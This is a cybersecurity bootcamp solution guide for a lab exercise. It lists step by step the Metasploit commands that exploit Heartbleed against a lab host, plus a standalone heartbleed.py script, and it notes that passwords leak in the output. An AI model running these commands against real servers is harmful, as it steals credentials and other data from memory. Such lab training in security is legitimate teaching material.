




## Solution Guide: Exploiting Heartbleed with Metasploit

In this activity, you with gathered data leakage from the Heartbleed vulnerability.
 
---

1. Run the command that launches Metasploit:
 
    - `msfconsole`
 
2. Run the command that performs a search for `heartbleed` exploits:
   
    - `search heartbleed`
 
     
 
3. Run the command that loads the `auxiliary/scanner/ssl/openssl_heartbleed` module:
 
    -   `use auxiliary/scanner/ssl/openssl_heartbleed`
 
4. Run the command that shows the module options:
 
    - `show options`
 
     
 
5. Configure the module's target using the victim's IP address and specify which MSF exploit module to use:
  
     - Run the command that sets the `RHOSTS` option to the given target's IP address:

       - `set RHOSTS 192.168.0.22`
 
    - Run the command that sets the `RPORT` option to the target's port `443`:

       - `set RPORT 443`

    - You'll also want to see the results of the attack: before you run your exploit, enter the command `set verbose true`:

       -  `set verbose true`

6. Run the exploit. What were the results of the scan? Did you see any passwords? 

    - Run `run` or `exploit` 
 
    - Yes, a username and password should be revealed in the output. 

    

#### Bonus

In a new terminal window, switch to the `/opt/heartbleed-example/` directory and run the following command:

  - `./heartbleed.py -n 100 192.168.0.22`

Did you discover any new passwords? Are there differences between running this script and using Metasploit? What are they? 

   - Yes, we discover new passwords. 

      - There are no usernames associated with the passwords.

   - The `heartbleed.py` script does not capture as many bytes of data. 
      
   - The word "password" is cut off.
      

   

____
 
&copy; 2020 Trilogy Education Services, a 2U Inc Brand. All Rights Reserved.

